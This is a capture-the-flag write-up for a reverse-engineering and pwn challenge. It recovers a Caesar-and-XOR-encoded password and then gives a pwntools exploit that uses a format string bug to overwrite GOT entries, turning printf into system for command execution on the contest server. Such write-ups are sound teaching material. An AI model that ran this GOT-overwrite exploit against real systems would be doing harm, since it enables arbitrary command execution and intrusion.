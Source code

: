 ```yaml
---
title: Vault of Lost Memories
categories: p_ctf{4cqU1r3d_B3y0nd_7h3_M3m0r1es}
tags: 
completedDuringEvent: true
submitted: true
flags: FLAG{0xdeadbeef}
draft: true
---
```

Let's just do a binary analysis using **IDA Pro**.

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  unsigned int v4; // [rsp+Ch] [rbp-4h]

  sub_401216(a1, a2, a3);
  signal(14, handler);
  alarm(0x64u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  if ( (unsigned int)sub_401259() )
  {
    v4 = -1;
    fwrite("password mismatch!\n", 1uLL, 0x17uLL, stderr);
  }
  else
  {
    v4 = 0;
    sub_401448();
  }
  return v4;
}
```

### Password Crack

It turns out that this program asks for password input, if the password entered is correct, then the program will run `sub_401448()`. However, before that, let's look at the `sub_401259()` function.

```c
__int64 sub_401259()
{
  char v1; // [rsp+7h] [rbp-39h]
  unsigned int i; // [rsp+8h] [rbp-38h]
  int j; // [rsp+Ch] [rbp-34h]
  char s[40]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 v5; // [rsp+38h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  for ( i = 0; i <= 0x1F; i += 4 )
    *(_DWORD *)&s[i] = 0;
  puts("Welcome to the digital vault of lost memories! ");
  puts("Enter the passcode to enter the lost memory world: ");
  printf(">>> ");
  fflush(stdout);
  fgets(s, 32, stdin);
  s[strlen(s) - 1] = 0;
  for ( j = 0; s[j]; ++j )
  {
    v1 = s[j];
    if ( ((*__ctype_b_loc())[v1] & 0x100) != 0 )
    {
      s[j] = (v1 - 65 + dword_404094) % 26 + 65;
    }
    else if ( ((*__ctype_b_loc())[v1] & 0x200) != 0 )
    {
      s[j] = (v1 - 97 + dword_404094) % 26 + 97;
    }
    s[j] ^= dword_404090;
  }
  return (unsigned int)-(memcmp("cLVQjFMjcFDGQ", s, 0xDuLL) != 0);
}
```

From the `sub_401259()` function we can see that the program performs a transformation on the password entered by the user. This transformation consists of two stages, namely Caesar cipher and XOR. After the transformation is complete, the program will compare the transformation result with the string `cLVQjFMjcFDGQ`. If the transformation result is the same as the string, the program will return a value of 0, otherwise, the program will return a value of -1.

```py
dword_404094 = 10   # The Caesar cipher shift value
dword_404090 = 53   # The XOR key

transformed_password = 'cLVQjFMjcFDGQ'
password = ''

for char in transformed_password:
    char = chr(ord(char) ^ dword_404090)

    if char.isupper():
        char = chr(((ord(char) - 65 - dword_404094) % 26) + 65)
    elif char.islower():
        char = chr(((ord(char) - 97 - dword_404094) % 26) + 97)
    
    password += char

print(password)
```

The correct password is `Lost_in_Light`.

### Format String Vulnerability

```c
int sub_401448()
{
  char s[136]; // [rsp+0h] [rbp-90h] BYREF
  unsigned __int64 v2; // [rsp+88h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  memset(s, 0, 0x80uLL);
  puts("How should we address you? ");
  printf(">>> ");
  fgets(s, 128, stdin);
  printf("hello ");
  printf(s);                                    // Format String
  printf("Here are the lost memories:");
  putc(10, stdout);
  return system("ls *.pdf");
}
```

From the `sub_401448()` function we can see that the program performs string formatting on the input given by the user. After that, the program will run `system("ls *.pdf")`. Because the program performs string formatting on the input given by the user, we can perform a string format attack to get the flag.

Because in string format we can write to the address we want, we can write to any address. Here I do a write on the `putc` function to return to the `sub_401448()` function and write on the `printf` function to run the `system` function.

```py
from pwn import *

binary = './challenge/chal'

# context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)
# r = remote('vault.ctf.prgy.in', 1337, ssl=True)

payload = fmtstr_payload(6, {
  e.got['putc']: 0x401448,              # Overwrite putc with sub_401448
  e.got['printf']: e.symbols['system']  # Overwrite printf with system
}, write_size='short')

r.recvuntil(b">>> ")
r.sendline(b"Lost_in_Light")

r.recvuntil(b">>> ")
r.sendline(payload)

r.interactive()
```

When this works, then every time we enter input, what should have been `printf(s);` will become `system(s);` where we can do any command. However, on the server there will be some obstacles, namely all files on the server are `.pdf` files. To get or download the `.pdf` file, we can use the `base64` command to encode the `.pdf` file into base64 and then we decode it locally.

In the last `.pdf` file, we will get a flag.

![alt text](image.png)
